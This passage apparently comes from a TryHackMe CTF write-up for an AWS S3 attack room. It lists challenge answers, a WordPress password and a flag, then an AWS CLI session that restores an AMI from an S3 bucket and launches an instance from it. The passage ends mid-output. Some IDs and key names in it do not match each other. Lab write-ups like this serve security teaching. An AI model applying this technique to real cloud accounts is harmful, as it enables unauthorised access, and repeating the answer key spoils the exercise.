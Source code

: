 <br>

> 8.3. <em>What is the password for the default WordPress user on the AMI we identified?</em><br><a id='8.3'></a>
>> <code><strong>nd4lR0IQ43Hd</strong></code>

<br>

> 8.4. <em>What is the flag in the WordPress profile of the user?</em><br><a id='8.4'></a>
>> <code><strong>47e94f90-cbb7-4c6a-aacc-f6ff765dc54a</strong></code>

<br>
<br>

<p>Discovered in previous task: <code>ami-056a6742115906e8c.bin</code></p>

```bash
:~/AWS-S3-Attack-and-Defense# aws ec2 create-restore-image-task --object-key ami-056a6742115906e8c.bin --bucket assets.bestcloudcompany.org --name 5242025ro --region us-east-1
{
    "ImageId": "ami-00b2c8b4d78d55286"
}
:~/AWS-S3-Attack-and-Defense# aws ec2 create-key-pair --key-name my --query "KeyMaterial" --output text > my.pem
:~/AWS-S3-Attack-and-Defense# aws ec2 describe-subnets > subnetsinfo
:~/AWS-S3-Attack-and-Defense# cat subnetsinfo | grep SubnetId
            "SubnetId": "subnet-026329a4e5b98cb69",
:~/AWS-S3-Attack-and-Defense# aws ec2 describe-security-groups > securityginfo
:~/AWS-S3-Attack-and-Defense# cat securityginfo | grep Description
            "Description": "Allow SSH Access for TryHackMe S3 Room",
            "Description": "default VPC security group",
:~/AWS-S3-Attack-and-Defense# cat securityginfo | grep sg
            "GroupId": "sg-03a0b9ee397718daa",
                            "GroupId": "sg-0165e4491e3879efb",
            "GroupId": "sg-0165e4491e3879efb",
:~/AWS-S3-Attack-and-Defense# 
:~/AWS-S3-Attack-and-Defense# aws ec2 run-instances --image-id ami-008edc9d45878c631 --instance-type t3a.micro --key-name key --subnet-id subnet-026329a4e5b98cb69 --security-group-id sg-03a0b9ee397718daa
{
    "Groups": [],
    "Instances": [
        {
            "AmiLaunchIndex": 0,
            "ImageId": "ami-008edc9d45878c631",
            "InstanceId": "i-0dc50d42ee7762fbb",
            "InstanceType": "t3a.micro",
            "KeyName": "key",
            "LaunchTime": "2025-05-24T18:49:23+00:00",
            "Monitoring": {
                "State": "disabled"
            },
            "Placement": {
                "AvailabilityZone": "us-east-1a",
                "GroupName": "",
                "Tenancy": "default"
            },
            "PrivateDnsName": "ip-10-0-0-202.ec2.internal",
            "PrivateIpAddress": "10.0.0.202",
            "ProductCodes": [],
            "PublicDnsName": "",
            "State": {
                "Code": 0,
                "Name": "pending"
            },
            "StateTransitionReason": "",
```